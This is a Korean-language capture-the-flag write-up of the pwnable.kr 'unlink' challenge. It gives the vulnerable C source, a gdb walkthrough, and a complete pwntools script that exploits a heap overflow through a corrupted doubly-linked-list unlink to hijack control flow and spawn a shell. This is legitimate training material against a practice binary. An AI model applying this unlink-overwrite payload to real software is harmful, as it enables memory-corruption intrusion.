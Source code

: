 ```yaml
---
title: Pwnable KR - unlink
slug: pwnable-kr-unlink
date: 2019-06-10 12:00:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR unlink](pwnable-kr-unlink.png)

unlink 취약점을 공부하는 문제.

```console
unlink@prowl:~$ ls -l
total 20
-r--r----- 1 root unlink_pwn   49 Nov 23  2016 flag
-rw-r----- 1 root unlink_pwn  543 Nov 28  2016 intended_solution.txt
-r-xr-sr-x 1 root unlink_pwn 7540 Nov 23  2016 unlink
-rw-r--r-- 1 root root        749 Nov 23  2016 unlink.c
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;

void shell(){
        system("/bin/sh");
}

void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

## 풀이

```c-objdump
   0x080485f2 <+195>:   call   0x8048504 <unlink>
   0x080485f7 <+200>:   add    $0x10,%esp
   0x080485fa <+203>:   mov    $0x0,%eax
   0x080485ff <+208>:   mov    -0x4(%ebp),%ecx
   0x08048602 <+211>:   leave
   0x08048603 <+212>:   lea    -0x4(%ecx),%esp
   0x08048606 <+215>:   ret
```

`main` 함수를 살펴보자. \
`main+208`에서 `ecx`에 `*(ebp-4)` 값을 넣고,
`main+212`에서 `esp`에 `ecx-4` 값을 넣고 있다.

`shell`의 주소가 있는 공간의 주소에 4를 더하여 `ebp-4`에 넣으면
`eip` 값을 `shell`로 바꿀 수 있다.
4를 더하는 이유는 `esp`에 값을 넣을 때 4를 빼기 때문이다.

그리고 바이너리를 실행할 때 `A`의 주소값을 알려주기 때문에 `ebp` 값도 알 수 있다.

```c-objdump
(gdb) b *main+200
Breakpoint 1 at 0x80485f7
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/unlink/unlink
here is stack address leak: 0xffc5c214
here is heap address leak: 0x829b410
now that you have leaks, get shell!
AAAA

Breakpoint 1, 0x080485f7 in main ()
(gdb) print $ebp
$1 = (void *) 0xffc5c228
(gdb) x/100x 0x829b410
0x829b410:      0x0829b440      0x00000000      0x41414141      0x00000000
0x829b420:      0x00000000      0x00000019      0x0829b440      0x0829b410
0x829b430:      0x00000000      0x00000000      0x00000000      0x00000019
0x829b440:      0x00000000      0x0829b410      0x00000000      0x00000000
```

확인하면 `ebp` 값은 `&A` 값에서 20만큼 더한 값임을 알 수 있다. \
그리고 `A->buf`와 `B`의 주소 차이가 16만큼인 것도 알 수 있다.

마지막으로 `shell`의 주소를 담을 공간과 그 주소가 필요한데,
이는 유저가 값을 수정할 수 있는 `A-buf` 덕분에 해결된다.

```c
stack = &A;
heap = A;

buf = heap+8
ebp = stack+20;

*(buf) = shell;    // A->buf
*(buf+16) = buf+4; // B->fd
*(buf+20) = ebp-4; // B->bk

*(buf+8) = ebp;   // FD->bk = BK;
*(ebp-4) = buf+4; // BK->fd = FD;

ecx = *(ebp-4); // buf+4
esp = ecx-4;    // buf
eip = *esp;     // shell
```

풀이과정을 c로 옮겨서 보면 이렇다.

```python
from pwn import *

s = ssh(user='unlink', host='pwnable.kr', port=2222, password='guest')
p = s.process('/home/unlink/unlink')

p.recvuntil(': ')
stack = int(p.recv(10), 16)

p.recvuntil(': ')
heap = int(p.recv(10), 16)

p.recv()

shell = 0x080484eb
buf = heap+8
ebp = stack+20

payload = p32(shell) # A->buf
payload += b'A'*12
payload += p32(buf+4) # B->fd
payload += p32(ebp-4) # B->bk

p.sendline(payload)
p.interactive()
```

python으로 풀이를 적으면 이렇다.

## 후기

어렵다
